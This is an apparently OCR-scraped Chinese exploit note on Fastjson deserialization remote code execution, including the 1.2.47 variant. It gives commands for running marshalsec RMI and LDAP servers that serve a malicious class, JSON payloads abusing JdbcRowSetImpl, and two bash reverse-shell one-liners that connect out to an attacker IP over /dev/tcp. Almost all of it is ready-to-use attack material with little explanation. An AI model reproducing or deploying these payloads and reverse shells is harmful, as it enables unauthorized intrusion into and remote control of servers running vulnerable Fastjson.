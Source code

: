 

搭建RMI或者idap服务

```
git clone https://github.com/mbechler/marshalsec.git

java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer "http://192.168.1.111/#exp" 9999

java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://192.168.1.111/#exp" 9999
```

exp为写好的恶意代码，`192.168.1.111`，

poc(content-type改为application/json，请求方式改为post)：

```json
{
 "b":{
 "@type":"com.sun.rowset.JdbcRowSetImpl",
 "dataSourceName":"rmi://192.168.1.111/#exp",
 "autoCommit":true
 }
}
```

弹shell的话：

```
"/bin/bash","-c","exec 5<>/dev/tcp/192.168.10.65/8899;cat <&5 | while read line; do $line 2>&5 >&5; done"
或者
"/bin/bash", "-c", "bash -i >& /dev/tcp/192.168.10.65/1234 0>&1"
```

### Fastjson 1.2.47远程命令执行漏洞

和上面一样，marshalsec项目启动RMI服务器

payload:

```
{
    "a":{
        "@type":"java.lang.Class",
        "val":"com.sun.rowset.JdbcRowSetImpl"
    },
    "b":{
        "@type":"com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName":"rmi://192.168.1.111/#exp",
        "autoCommit":true
    }
}
```

